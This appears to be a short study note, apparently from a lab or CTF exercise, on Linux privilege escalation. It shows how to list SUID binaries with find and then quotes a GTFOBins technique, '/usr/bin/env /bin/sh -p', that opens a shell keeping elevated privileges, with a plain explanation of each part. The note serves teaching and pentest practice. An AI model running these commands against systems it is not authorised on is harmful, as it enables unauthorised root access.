 ## Find SUID files

``` bash
find / -perm -4000 2>/dev/null
```
- **`find /`** → Starts searching from the root (`/`) directory.
- **`-perm -4000`** → Looks for files with the **SUID (Set User ID) permission** set (`4000` in octal).
- **`2>/dev/null`** → Redirects **error messages** (typically "Permission denied" errors) to `/dev/null` to avoid clutter in the output.

![[Pasted image 20250328225102.png]]

Search **`env`** on GTFOBins with SUID permission: https://gtfobins.github.io/gtfobins/env/#suid

``` bash
/usr/bin/env /bin/sh -p
```
- **`/usr/bin/env`** → Runs a command in a modified environment (typically used to locate and execute binaries in the correct environment).
- **`/bin/sh`** → Starts a new shell session using `/bin/sh`.
- **`-p`** → Instructs the shell to **not drop privileges** when executing.